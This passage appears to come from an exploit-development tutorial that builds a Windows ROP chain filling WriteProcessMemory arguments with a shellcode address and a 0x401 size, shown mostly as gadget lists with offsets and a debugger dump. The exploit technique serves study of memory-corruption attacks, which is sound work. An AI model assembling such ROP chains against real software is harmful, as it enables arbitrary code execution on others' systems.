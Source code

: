 The next value we want to write is the shellcode address on the stack – this is the source of the copy operation that WriteProcessMemory will be doing. To get a pointer to our shellcode we have look in the debugger how big the difference from the current esp at this point to the start of the shellcode is. In this case, the following gadgets move eax exactly to the start of the shellcode & writes it to where ecx points to (which is still the next skeleton value to overwrite):

```
0x16238 + binary_base, # mov eax, ecx; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x62646 + binary_base, # add eax, 0x7f; ret;
0x4d1ed + binary_base, # sub eax, 0x30; pop ebp; ret;
0x41414141,
0x76096 + binary_base, # add eax, 8; ret;
0x76096 + binary_base, # add eax, 8; ret;
0x76096 + binary_base, # add eax, 8; ret;
0x76096 + binary_base, # add eax, 8; ret;
0x76096 + binary_base, # add eax, 8; ret;
0x76096 + binary_base, # add eax, 8; ret;
0x76096 + binary_base, # add eax, 8; ret;
0x76096 + binary_base, # add eax, 8; ret;
0x76096 + binary_base, # add eax, 8; ret;
0x76096 + binary_base, # add eax, 8; ret;
0x7ab35 + binary_base, #: mov dword ptr [ecx], eax; pop ebp; ret;
0x41414141,
```

Confirm:

```
0:003> dd ecx
019bf380  019bf915 43434343 3fb5635a 3fab159d
```

The next value we have to replace is the size. We have to chose a value that is enough for our shellcode but not too big as to not cause issues. The following rop gadgets move the skeleton pointer once again ahead and place the value of 0x401 as a size value, which is enough to hold our shellcode.

```
# Write size (0x401) to skeleton dummy value
0x0582b + binary_base,  # inc ecx; ret 0;
0x0582b + binary_base,  # inc ecx; ret 0;
0x0582b + binary_base,  # inc ecx; ret 0;
0x0582b + binary_base,  # inc ecx; ret 0;
0x704F4 + binary_base,  # pop eax
0x19b3  + binary_base,  # addr of 0x401;
0x2bb8e + binary_base,  # mov eax, dword ptr [eax]; ret;
0x7ab35 + binary_base,  # mov dword ptr [ecx], eax; pop ebp; ret;
0x41414141,
```
